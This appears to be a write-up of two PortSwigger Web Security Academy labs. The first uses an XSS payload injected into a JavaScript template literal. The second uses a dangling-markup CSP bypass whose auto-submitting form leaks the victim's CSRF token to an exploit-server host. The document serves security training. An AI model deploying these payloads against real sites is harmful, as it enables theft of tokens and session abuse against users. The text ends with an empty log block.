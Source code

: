 ## Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
Reference: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-template-literal-angle-brackets-single-double-quotes-backslash-backticks-escaped


### Quick Solution
This lab contains a reflected XSS. The searched text gets reflected inside a **template string**, so it is pretty easy to exploit just by typing:
```
${alert(1)}
```

Response:

<script>
var message = `0 search results for '${alert(1)}'`;
document.getElementById('searchMessage').innerText = message;
</script>


### Solution
1. Submit a random alphanumeric string in the search box, then use Burp Suite to intercept the search request and send it to Burp Repeater.
2. Observe that the random string has been reflected inside a JavaScript template string.
3. Replace your input with the following payload to execute JavaScript inside the template string: ``${alert(1)}``
4. Verify the technique worked by right clicking, selecting "Copy URL", and pasting the URL in your browser. When you load the page it should trigger an alert.

## Reflected XSS protected by CSP, with dangling markup attack
Reference: https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-csp-with-dangling-markup-attack


### Solution
1. Log in to the lab using the account provided above.
2. Examine the Update email function. Observe that there is an XSS vulnerability in the [[email]] parameter.
3. Go to the exploit server and paste the following template into the Body field, substituting the placeholder URLs with your own lab ID and exploit server ID:
```html
<body>
<script>
let form = document.createElement('form');
form.action='https://YOUR-LAB-ID.web-security-academy.net/my-account';
let input = document.createElement('input');
input.name = 'email';
input.value = '"><table background=\'//YOUR-EXPLOIT-SERVER-ID.web-security-academy.net?';
form.append(input);
document.body.appendChild(form);
form.submit()
</script>
</body>
```
4. Click Store and then Deliver exploit to victim. If the victim's browser runs this script while they are still logged in to the lab website, their browser will send a request to the exploit server containing their CSRF token in the query string.
5. Click Access log. You should see an HTTP interaction that was initiated by the application. This will look something like:
```
```
